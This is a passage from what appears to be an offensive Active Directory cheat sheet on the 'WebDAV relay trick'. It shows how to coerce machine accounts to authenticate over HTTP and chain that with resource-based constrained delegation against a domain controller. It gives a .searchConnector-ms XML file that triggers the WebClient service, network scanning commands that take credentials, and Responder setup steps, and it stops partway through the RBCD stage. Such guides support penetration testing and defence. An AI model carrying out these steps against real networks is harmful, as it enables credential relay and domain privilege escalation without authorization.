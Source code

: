 ## Relaying with WebDav Trick

> Example of exploitation where you can coerce machine accounts to authenticate to a host and combine it with Resource Based Constrained Delegation to gain elevated access. It allows attackers to elicit authentications made over HTTP instead of SMB

**Requirement**:

* WebClient service

**Enable WebClient**:

WebClient service can be enable on the machine using several techniques:

* Mapping a WebDav server using `net` command : `net use ...`
* Typing anything into the explorer address bar that isn't a local file or directory
* Browsing to a directory or share that has a file with a `.searchConnector-ms` extension located inside.

    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <searchConnectorDescription xmlns="http://schemas.microsoft.com/windows/2009/searchConnector">
        <description>Microsoft Outlook</description>
        <isSearchOnlyItem>false</isSearchOnlyItem>
        <includeInStartMenuScope>true</includeInStartMenuScope>
        <templateInfo>
            <folderType>{91475FE5-586B-4EBA-8D75-D17434B8CDF6}</folderType>
        </templateInfo>
        <simpleLocation>
            <url>https://example/</url>
        </simpleLocation>
    </searchConnectorDescription>
    ```

**Exploitation**:

* Discover machines on the network with enabled WebClient service

    ```ps1
    webclientservicescanner 'domain.local'/'user':'password'@'machine'
    netexec smb 10.10.10.10 -d 'domain' -u 'user' -p 'password' -M webdav
    GetWebDAVStatus.exe 'machine'
    ```

* Disable HTTP in Responder

    ```ps1
    sudo vi /usr/share/responder/Responder.conf
    ```

* Generate a Windows machine name, e.g: "WIN-UBNW4FI3AP0"

    ```ps1
    sudo responder -I eth0
    ```

* Prepare for RBCD against the DC

